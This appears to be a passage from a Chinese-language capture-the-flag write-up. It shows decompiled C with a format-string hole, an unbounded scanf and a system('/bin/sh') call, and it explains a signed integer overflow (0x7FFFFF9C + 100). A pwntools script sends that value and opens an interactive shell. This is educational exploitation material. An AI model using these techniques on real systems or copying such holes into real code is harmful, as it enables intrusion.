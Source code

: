 ```c
void out()
{
  char a[100]; // [esp+18h] [ebp-80h]
  int weak; // [esp+88h] [ebp-10h]
  int *p; // [esp+8Ch] [ebp-Ch]
  // a是 -80h, weak 是-10h, 覆盖需要 0x80-0x10
  // 再输入weak值 -- 1500,注意是%s， 数字转字符串

  weak = 0;
  p = &weak;
  printf("weak point : %p\n", &weak);
  __isoc99_scanf("%s", a);
  printf(a);
  if ( weak == 1500 )
  {
    puts("Congratulation!");
    system("/bin/sh");
  }
  printf("%i", weak);
}
```

### pwn3 int 符号整数溢出问题

0x7FFFFF9C + 100 = 负最大 满足条件

满足 3 条件
1.x > 100
2.x <= 0x7FFFFF9C
3.x + 100 <= 198
1 和 3 矛盾，找临界值 0x7FFFFF9C + 100 时为负最大。满足条件

```py
from pwn import *

file = './pwn3'
sh = process(file)
payload = 0x7FFFFF9C
sh.sendline(str(payload))
sh.interactive()
```

```c
int vuln()
{
  int v1; // [esp+Ch] [ebp-Ch]

  printf("请输入索引,确保索引大于100\n索引:");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 100 ) // 0x7FFFFF9C 大于100 过
  {
    puts("奥利给");
    exit(0);
  }
  if ( v1 > 0x7FFFFF9C ) // 0x7FFFFF9C 不大于 0x7FFFFF9C 过
  {
    puts("奥利给");
    exit(0);
  }
  printf("索引+100=%d\n", v1 + 100);
  if ( v1 + 100 > 198 ) // 0x7FFFFF9C 加100 = 负最大值 < 198 过
  {
    puts("索引+100值太大了,应该小于199");
    exit(0);
  }
```